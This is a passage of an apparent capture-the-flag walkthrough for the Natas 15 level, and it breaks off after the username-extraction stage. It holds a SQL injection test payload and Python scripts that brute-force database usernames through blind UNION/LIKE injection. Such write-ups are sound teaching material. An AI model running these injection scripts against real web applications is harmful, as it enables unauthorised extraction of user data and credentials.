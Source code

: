 # Natas 15 walkthrough
As always, we first introduce our credentials, and the first thing we see is this:
![alt text](media/front-end.png)

We see a form, that ask us to introduce an username, and then when we click the check existence button to send the post request. Lets try to introduce a random name, like "username".

![alt text](media/image1.png)

We get redirected to the following page 

![alt text](media/image2.png)

An as a result, the we see the text "This user doesn't exist.", this will be useful later in the script. 
So from what we have gathered by now, we can guess that if we put an username that exists, maybe the text that appears will be different.

Still we don't have much information, so we will see the source code.

![alt text](media/source_code.png) 

And looking at it, we see two important things, someone left the schema of the database in a comment, and we see that they are using a query. And another thing that is useful that we have a debug variable that we can add in the request, so we can see the query generated. 

To solve this problem, we can divide it the following parts: Code injection, finding the usernames, finding the password.

## Code Injection

For me at least, this was the part that took more time, because to create the query, I had to use my imagination and creativity. And also have to find a way to confirm that I can inject code.

### Confirming the code injection
To see if it's possible to inject code into this form, I created this function to help me (Before you look at it, you could try it for yourself!).
```python
#Function to see if we can inject code
def test_code_injection():
    payload = {'debug':'True','username': "\" OR \"1=1" }
    r= session.post(url,auth=(username, password),data=payload)
    print(f"this is the content {r.content}")
    if b"This user exist" in r.content:
        print(f"look we injected code!")
```
I set the debug variable to true, because it's helpful, and used an old friend (" OR "1=1) to verify if it's possible to inject code, and also left a print of the content, because when I was trying to write our old friend, I've made a lot of syntaxs errors, so it did not worked out at the first try hahaha. And it finally worked as you can see in this output.

![alt text](media/output.png)

### Creating the query

If we thing about the restrictions of the problem, we can see that we can not know the specifics values of the columns in the database, so the first question is, **how can we guess them?** And so while I was thinking on this, I did a little research on how to do queries, and found something very useful, and it is the LIKE keyword and using it with the % operator, we can do brute force to guess how does the values stored in the database are written. And also needed to use the JOIN keyword, so we can use the things mentioned before. And why we have to guess it? Because of the information that the page is giving us, we can only know when we are on the right track by seeing the content displayed in the page that says "This user exists."
So finally, the injected code will look like this:

<span style="color: #FF5F0F;">" UNION SELECT * from users WHERE username LIKE "<random_char>%</span>

I used the UNION keyword, because that's the way I found that I can be guessing the values stored in the database and felt more comfortable, maybe there is another way.

## Finding the usernames
We need to find first the usernames, because in this way, when we want to obtain the password of any username, we can shorten the guess for the password. So we are going to use injection created before in order to guess with which character does all the usernames start with, why? Because the brute force will be shorten, and we don't have to try all the possible combinations of characters. And also, after we find the firsts characters of every username, we have to know their full name.
```python
#This function find the first initial character of the usernames stored in the database
def get_start_char(characters):
    start_char = []
    for char in characters:
        print(f"trying with {char}")
        payload = {'username': "\" UNION SELECT * from users WHERE username LIKE \""+char+"%" }
        r= session.post(url,auth=(username, password),data=payload)
        if b"This user exist" in r.content:
            print(f"we found the following character {char}")
            start_char.append(char)
    return start_char
              
#Function to obtain the usernames stored in the database
def obtain_usernames(username,password,session,url):
    characters = 'qwertyuiopñlkjhgfdsazxcvbnm1234567890QWERTYUIOPÑLKJHGFDSAZXCVBNM*?!#$&/()='
    contador = 0
    #['ñ','a', 'c', 'b', 'n', 'Ñ', 'A', 'C', 'B', 'N']
    start_users = get_start_char(characters)
    full_name = []
    for user_to_find in start_users:
        while True:
            if contador == len(characters)-1:
                full_name.append(user_to_find)
                contador=0
                break
            print(f"trying with {user_to_find}{characters[contador]}")
            test = user_to_find+ characters[contador]
            payload = {'username': "\" UNION SELECT * from users WHERE username LIKE \""+test+"%" }
            r= session.post(url,auth=(username, password),data=payload)
            if b"This user exist" in r.content:
                print(f"We've got a match with {characters[contador]}")
                user_to_find +=characters[contador]
                contador=0
            contador+=1
    print(f"The users are \n: {full_name}")
    return full_name
```
<figure>
    <video width="320" height="240" controls>
        <source src="media/video_get_names.mp4" type="video/mp4">
        Your browser does not support the video tag.
    </video>
    <figcaption>Video showing brute force of the usernames</figcaption>
</figure>


